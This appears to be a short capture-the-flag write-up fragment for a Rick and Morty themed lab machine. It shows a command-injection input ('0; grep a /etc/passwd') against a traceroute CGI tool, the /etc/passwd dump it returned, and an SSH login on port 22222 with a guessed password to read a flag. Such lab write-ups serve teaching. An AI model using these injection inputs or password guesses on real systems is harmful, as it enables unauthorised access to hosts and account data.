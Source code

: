 FLAG Found
```
FLAG{Flip the pickle Morty!} - 10 Points
```

## Found cgi_bin/tracertool.cgi
### determined that command chain could be performed
```

0; grep a /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
systemd-timesync:x:998:997:systemd Time Synchronization:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
chrony:x:995:993::/var/lib/chrony:/sbin/nologin
RickSanchez:x:1000:1000::/home/RickSanchez:/bin/bash
Morty:x:1001:1001::/home/Morty:/bin/bash
Summer:x:1002:1002::/home/Summer:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
```

## Trying to Users win Password Winter
### ssh to 22222
```
Last login: Wed Aug 15 14:42:20 2018
[Summer@localhost ~]$ ls
FLAG.txt
[Summer@localhost ~]$ cat FLAG.txt
                         _
                        | \
                        | |
                        | |
   |\                   | |
  /, ~\                / /
 X     `-.....-------./ /
  ~-. ~  ~              |
     \             /    |
      \  /_     ___\   /
      | /\ ~~~~~   \  |
      | | \        || |
      | |\ \       || )
     (_/ (_/      ((_/

[Summer@localhost ~]$ 
```
